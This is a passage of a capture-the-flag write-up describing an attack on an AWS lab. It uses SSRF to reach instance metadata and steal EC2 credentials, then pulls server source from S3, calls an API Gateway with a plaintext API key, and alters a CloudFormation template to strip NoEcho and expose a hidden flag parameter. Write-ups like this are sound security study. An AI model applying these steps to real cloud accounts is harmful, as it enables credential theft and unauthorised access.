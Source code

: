 We could SSRF the healthcheck endpoint to make the internal server fetch arbitrary URLs, but it did not expose local files directly. However, the internal EC2 also had IMDS access, repeating the IMDS enumeration returned `internal-ec2` credentials and its user-data pointed to `s3://claws-internal-setup-bucket/internal.zip`, containing the server source.

---

## 8. Inspecting internal.zip and API Gateway

Downloaded `internal.zip` from the internal S3 (using internal-ec2 credentials) and inspected `server.js`. The file revealed the API Gateway endpoint:

```
https://8u7sima66a.execute-api.ap-southeast-1.amazonaws.com
```

We had earlier found the API key value in Secrets Manager (`internal_web_api_key-t7au98`), so we can call the API:

```bash
curl -s "https://8u7sima66a.execute-api.ap-southeast-1.amazonaws.com/dev/generate_stack" \
  -H "x-api-key: 54ul3yrF4p3mc7S4dhf0yy0AY5GQWd15"
# -> {"stackId":"arn:aws:cloudformation:ap-southeast-1:533267020068:stack/pawxy-sandbox-ff934a59/21e722b0-9137-11f0-b9b0-06333aa23993"}
```

The API response indicated a CloudFormation stack was being created.

---

## 9. Inspect CloudFormation

Using the `internal-ec2` IAM credentials obtained earlier to inspect CloudFormation stack:

```bash
aws cloudformation describe-stacks --stack-name pawxy-sandbox-ff934a59
aws cloudformation get-template --stack-name pawxy-sandbox-ff934a59
```

The template description was `"Flag part 2"`. The template had a parameter `flagpt2` with `NoEcho: true`, causing the parameter value to be redacted in `describe-stacks`.

---

## 10. Recovering the CloudFormation parameter

From some blind testing, I found out that the internal IAM credentials had permissions to update the CloudFormation stack. I updated the stack with a modified template that retains the `flagpt2` value but removes `NoEcho`, making it no longer hidden.

By modifying the template to remove NoEcho:
```yaml
AWSTemplateFormatVersion: '2010-09-09'
Description: >
  Flag part 2

Parameters:
  flagpt2:
    Type: String

Resources:
  AppDataStore:
    Type: AWS::S3::Bucket
    Properties:
      BucketName: !Sub app-data-sandbox-bucket
```

